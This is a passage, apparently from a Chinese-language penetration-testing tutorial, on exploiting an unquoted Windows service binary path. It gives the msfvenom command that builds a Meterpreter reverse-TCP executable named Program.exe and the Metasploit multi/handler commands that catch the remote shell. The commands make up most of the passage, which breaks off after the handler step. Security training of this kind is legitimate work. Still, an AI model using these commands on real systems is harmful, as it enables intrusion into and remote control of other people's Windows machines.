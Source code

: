 ![如何操作...](img/image_09_010.jpg)

1.  我们看到二进制路径没有被引号括起来。现在我们将继续在我们的 Kali 机器上使用`msfvenom`制作一个反向 shell，用于这个 Windows 框架。在 Kali 终端中输入以下命令，替换您在 Kali 上获得的 IP 和所需的端口：

```
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP       Address> LPORT=<Your Port to Connect On> -f exe > Program.exe

```

输出将如下截屏所示：

![如何操作...](img/image_09_011.jpg)

1.  在您的 Kali 机器上使用以下命令启动一个反向处理程序：

```
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost x.x.x.x
      set lport xxx
      exploit

```

输出将如下截屏所示：
